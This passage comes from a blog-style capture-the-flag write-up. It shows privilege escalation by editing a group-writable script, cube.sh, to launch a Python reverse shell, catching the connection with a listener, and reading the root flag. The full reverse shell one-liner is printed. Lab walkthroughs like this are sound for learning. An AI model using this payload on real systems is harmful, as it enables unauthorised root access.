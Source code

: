 We have found interesting file named `cube.sh`. now let's go and open that files with any text editor.

10. Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?

```
Python Reverse Shell:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

They have provided us with a python reverse shell, we can use that and put inside cube.sh file modify the IP address and port part inside that payload and save it.

![Alt text](https://bafybeidx2odzw3gcikveb7nbqrulz6lsajw62sgecycum6ebgoxtsxpqou.ipfs.w3s.link/Screenshot%202025-01-17%20151313.png)

Now we have to set up a listener on our local machine.
![Alt text](https://bafybeidx2odzw3gcikveb7nbqrulz6lsajw62sgecycum6ebgoxtsxpqou.ipfs.w3s.link/Screenshot%202025-01-17%20151251.png)

After setup the listener, now execute the cube.sh on the remote machine that we ssh to, Now get back to our local machine bomb, now we have escalated our privilege from baksteen to root.

![Alt text](https://bafybeidx2odzw3gcikveb7nbqrulz6lsajw62sgecycum6ebgoxtsxpqou.ipfs.w3s.link/Screenshot%202025-01-17%20151228.png)

Type id to see our current id, we can now we are root now go to /root directory and cat the flag.txt, to get our Congratulations!

Thanks for reading my blog!
